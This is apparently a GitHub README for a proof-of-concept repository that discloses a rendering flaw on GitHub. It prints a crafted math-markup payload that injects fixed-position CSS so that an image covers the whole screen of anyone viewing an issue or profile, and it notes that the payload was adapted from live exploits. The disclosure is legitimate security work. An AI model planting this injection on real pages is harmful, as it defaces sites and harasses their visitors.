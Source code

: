 # GithubFullscreenIssuePoC

This repo is to demonstrate an issue with Github that covers the users screen with an image / gif when they visit a custom crafted issue / user profile.

Issue Link / PoC: [Here](https://github.com/Reelix/GithubFullscreenIssuePoC/issues/1)  

Note: Issue as been closed and locked due to abuse by third-party users.  

Issue Source (May contain needless markup - PoC was taken and modified from live exploits):

```
Test

$$\ce{$\unicode[goombafont; color:red; pointer-events: none; z-index: 5; position: fixed; inset: 0; opacity: 100%; background-size: 100% 100%; background-image: url('https://raw.githubusercontent.com/Reelix/GithubFullscreenIssuePoC/main/Github-Logo.png');]{x0000}$}$$
```
